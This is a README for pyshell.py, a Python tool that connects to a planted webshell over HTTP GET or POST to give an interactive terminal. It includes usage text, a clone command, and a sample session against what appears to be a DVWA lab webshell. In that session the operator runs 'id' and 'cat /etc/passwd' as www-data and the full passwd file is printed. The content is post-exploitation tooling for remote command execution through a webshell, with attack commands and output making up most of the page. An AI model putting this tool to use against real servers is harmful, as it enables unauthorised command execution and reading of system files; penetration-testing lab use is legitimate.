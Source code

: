 # pyshell.py

## Description
A Python script that connects to a webshell to create a sudo-interactive terminal session.

```
usage: pyshell.py [-h] -u URL -m {GET,POST}

A Python script that connects to a webshell to create a sudo-interactive
terminal session.

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     The URL to connect to your webshell. This script
                        will append your commands to the supplied string.
                        For example,
                        http://windowsforensics.net?cmd=\{Command\}.
  -m {GET,POST}, --method {GET,POST}
                        The HTTP Request Method to use when interacting
                        with your webshell.
```

## Requirements
- Python ≥ 3.0

## Usage
- Download the pyshell repository: `git clone https://github.com/malwaredetective/pyshell.git`.
- Execute **pyshell.py** within your terminal: `python3 pyshell.py -u <string> -m <string>` to interact with your webshell in a sudo-interactive terminal session.

```
Kyle@KHUB-LAPTOP Documents\Python\pyshell via 🐍 v3.10.10
❯ python .\pyshell.py -u "http://dvwa.local/shell.php?cmd=" -m "GET"

www-data@ip-10-10-36-58
--> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

www-data@ip-10-10-36-58
--> cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
messagebus:x:102:106::/var/run/dbus:/bin/false
landscape:x:103:109::/var/lib/landscape:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
mysql:x:106:111:MySQL Server,,,:/nonexistent:/bin/false

www-data@ip-10-10-36-58
--> exit
```
